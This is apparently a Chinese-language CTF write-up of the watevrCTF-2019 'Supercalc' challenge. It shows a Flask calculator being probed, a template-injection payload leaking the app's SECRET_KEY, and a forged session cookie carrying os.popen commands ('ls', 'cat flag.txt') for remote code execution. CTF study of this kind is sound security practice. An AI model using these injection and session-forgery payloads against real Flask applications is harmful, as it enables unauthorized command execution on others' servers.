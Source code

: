 ```yaml
---
title: '[watevrCTF-2019]Supercalc'
date: 2024-09-26 21:25:56
tags: session伪造
categories: 刷题笔记
---
```


## [watevrCTF-2019]Supercalc

打开页面，我们发现一个计算框

我们输入1+1，返回了2

![image-20240926213408503](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409262134613.png)

这种情况我们想到ssti模版注入

我们输入{{7*7}}

结果发生报错

<!--more-->

![image-20240926213445763](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409262134790.png)

提示我们不能输入{}

我们继续查找，在cookie里发现session，看结构和开头，应该是flask框架的，我们进行解密

![image-20240926214158013](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409262141131.png)

```
{'history': [{'code': '1 + 1'}]}
```

其解密后的值为之前提交的算式，猜测`code`中的式子可被执行

我们尝试让程序进行报错

在输入`1/0`时，得到报错：

![image-20240926214351634](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409262143671.png)

说明程序对报错应该没有做过滤，尝试输入`#(注释)`：`1/0#1+1`：

![image-20240926214443212](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409262144298.png)

得到报错，式子拼接成功

得到报错，式子被成功拼接，在`#`注释后加上模版语法：

```python
1/0#{{7*7}}
```

![image-20240926214700616](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409262147696.png)

我们尝试进行模版注入

```
1/0#{{“”.__class__}}
```

又报错了，长度进行了限制

![image-20240926214835841](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409262148876.png)

我们只能伪造session了，看看是否能爆出`SECRET_KEY`的值，查看`config`

```
1/0#{{config}}
```

![image-20240926214925922](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409262149161.png)

成功找到SECRET_KEY，满足了加密**session**的条件
构造本题所需的`session`：

```
{'history': [{'code': '__import__(\"os\").popen(\"ls \").read()'}]}

```

`注`：需要将其中的`"`双引号进行转译

我们进行session加密

![image-20240926220220931](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409262202974.png)

成功伪造session

```
eyJoaXN0b3J5IjpbeyJjb2RlIjoiX19pbXBvcnRfXyhcIiBvc1xcKS5wb3BlbihcXGxzXFwpLnJlYWQoKSJ9XX0.ZvVqlg.3-2P1K8I7k9ZeL5vzceo8wQX1Cg
```

我们填入session进行刷新

![image-20240926222217990](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409262222029.png)

找到flag文件，我们打开它

```
{'history': [{'code': '__import__(\"os\").popen(\"cat flag.txt\").read()'}]}
```

重复以上操作得到flag

![image-20240926221808946](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409262218986.png)
